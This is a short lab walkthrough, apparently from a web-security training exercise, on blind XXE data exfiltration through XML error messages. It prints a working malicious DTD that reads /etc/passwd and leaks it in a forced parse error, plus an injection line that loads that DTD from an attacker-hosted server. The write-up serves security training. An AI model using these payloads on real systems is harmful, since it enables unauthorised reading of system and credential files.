 We first find the site where the application uses XML: 
![](imgs/blind_xxe_exfiltrate_via_error_message.png)

We can now create the error message data exfiltration payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; %exfil;
```

This creates an XML entity called file that displays the content of `/etc/passwd` but this variable is not being used literally, instead, an error is triggering on purpose that uses `%file` to display the file on the error message.

We store this malicious DTD in our exploit server:
![](imgs/blind_xxe_exfiltrate_via_error_message-1.png)

And we add an XXE pointing to this exploit server:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

This way, the malicious DTD will be loaded, executed, an error will be triggered and this error will contain the contents of the variable:
![](imgs/blind_xxe_exfiltrate_via_error_message-2.png)

Note that if we try to exfiltrate the file directly, without error message:
![](imgs/blind_xxe_exfiltrate_via_error_message-3.png)

We cannot due to it having illegal characters (it is being validated in some way):
![](imgs/blind_xxe_exfiltrate_via_error_message-4.png)
Therefore, the error message is a way to bypasse some input validations.